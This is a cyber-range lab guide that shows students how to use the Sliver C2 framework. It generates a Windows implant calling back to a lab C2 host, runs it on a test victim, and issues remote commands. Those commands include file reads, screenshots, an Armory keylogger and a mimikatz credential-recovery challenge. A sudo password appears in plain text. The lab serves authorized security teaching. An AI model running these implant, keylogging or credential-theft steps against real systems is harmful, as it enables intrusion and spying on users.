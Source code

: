 > **Disclaimer:** The purpose of the lab environment is solely for educational and research purposes within the context of authorized and supervised activities. This lab environment is established to facilitate learning, analysis, and understanding of malware and related cybersecurity concepts. The malware lab environment is equipped with security measures to prevent unauthorized access and the spread of malware. However, it is essential to exercise caution and follow established protocols to minimize the risk of accidental exposure, infection, or unintended distribution of malware.

# Sliver C2 Botnet Instructions
Sliver is an open-source command and control (C2) botnet framework designed for educational purposes. The framework consists of a main server component that allows the deployment and management of botnet infrastructure. The server facilitates communication with the botnets.

C2 infrastructure operates by establishing a connection from the victim's machine back to the controller using outbound communication through well-known ports, such as HTTP. Typically, firewalls block incoming communication, but outbound communication through HTTP is commonly allowed. C2 botnet infrastructure exploits this by having the Sliver server listen for incoming communication from the botnet victims.

When a victim's machine is compromised and becomes part of the botnet, it runs with user privileges. This allows the controller to issue various commands to the botnet, essentially giving the controller control over the actions the victim machine performs. Consequently, the controller can carry out malicious activities using the compromised machines.

Please note that in your lab environment, all protection measures are disabled. However, in a real-world scenario, botnets can be thwarted by using up-to-date anti-malware software to prevent the initial implant from executing. If the initial infection occurs, it becomes more challenging to detect and stop the botnet's C2 communication, as the botnet attempts to camouflage itself as regular network traffic.

It is crucial to conduct these experiments and study the botnet framework within a controlled and strictly educational environment. The knowledge gained can contribute to understanding botnet behaviors, detecting and mitigating potential threats, and reinforcing cybersecurity practices.

## Accessing your Servers
You have 2 servers in your lab:
* **sliver-server**: Ubuntu server with the role of command and control of the botnet.
* **sliver-victim**: A test victim server used for installing implants.

> **Information:** When connecting to servers, it may be best to open this in an incognito browser to avoid caching the credentials used to connect. Only connect to one of the servers at a time, and then, only in incognito mode.

![image](https://github.com/emerginganalytics/cyberarena/assets/50710945/4b1ffb77-62f5-4208-89e7-fd88ef5be39c)

### Start and Run Sliver
Open the Sliver server interface, which will be an SSH command prompt. Run the following commands to start Sliver. If promted for the sudo password, enter in `Let's workout!`
```
sudo systemctl start sliver
sudo sliver
```
You should then see a prompt similar to the one below:
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/4e87efc9-669f-4d72-b099-308bf03cd49b)

### Generating the Implant
Run the following command to generate the botnet malware. This will take a few minutes and when it completes a new executable with an arbitrary name will be saved in the student directory indicated.
```
generate --mtls 10.1.1.10 --os windows --arch amd64 --format exe
```
When you create your implants, move them to the `/srv/sliver` folder on the Sliver server and change the permissions to allow execution in the commands below. Make sure you exist the sliver prompt by typing in `exit`.
```
cp ./<RANDOM_NAME>.exe /srv/sliver/
sudo chmod 777 /srv/sliver/<RANDOM_NAME>.exe
```
The `cp` command means copy and it copies the executable you just created to a directory /srv/sliver. For the nerds out there, a SAMBA server is running on the Ubuntu system that allows Windows systems to navigate to the executable using network shares.

Now you'll want to start the Botnet server so it will listen for the victim to communicate back to it. Run the following:
```
sudo sliver
sliver > mtls
```
Sliver is now waiting for clients to communicate back with it.

### Open your Victim Machine
Then, the malware can be accessed by your Windows server, sliver-victim, by opening a file explorer and navigating to `\\10.1.1.10\sliver`

Double click to run the executable. Nothing will happen, but the C2 backchannel communication will be established.

### Use Botnet Server
Go to the sliver-server and you should see a line like this:
```
[*] Session 40ecf1dd ...
```
This lets you know that a C2 channel is open to the victim. You can use this channel by typing:
```
use 1 (replace '1' with the first character of your session ID)
```
You can also list the sessions by typing `sessions` and find the session ID of the victim PC.

You can run commands similar to the following:
```
sliver (RANDOM_NAME) > info             # This will show you information about the remote PC
sliver (RANDOM_NAME) > execute calc     # Open the calculator application on the desktop
sliver (RANDOM_NAME) > execute notepad  # Open the notepad application on the desktop
```
Some other interesting commands:
```
sliver (RANDOM_NAME) > cat /users/cyberarena/sample.txt   # dumps the contents of a text file
sliver (RANDOM_NAME) > screenshot                         # Generate a current screenshot. You can move this to the /srv/sliver directory to view it
```

### Sliver Armory
The Sliver armory 
```
sudo sliver                               # If you're not already in the console.
sliver > armory install raw-keylogger     # Install a keylogger extension
sliver > user 1                           # Replace with the session ID
sliver (RANDOM_NAME) > raw-keylogger 1    # Starts the remote keylogger. You can go to the victim machine and type into a notepad.
sliver (RANDOM_NAME) > raw-keylogger 2    # Captures the keylogger output.
```
> **Challenge:** There's a secret password on the victim. See if you can use mimikatz through the Armory to recover the password.

### Sliver Network Communication Monitoring
You can observe the network traffic used by Sliver through the Wireshark application on the Windows victim desktop. Double click on Wireshark and include the filter `host 10.1.1.20` similar to the screenshot below, but make sure to use the IP address 10.1.1.20.
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/88443e75-ad85-402d-9bf3-19df26b92fe0)

You will start to see traffic coming across periodically. Here, you can observe the protocol used by Sliver.
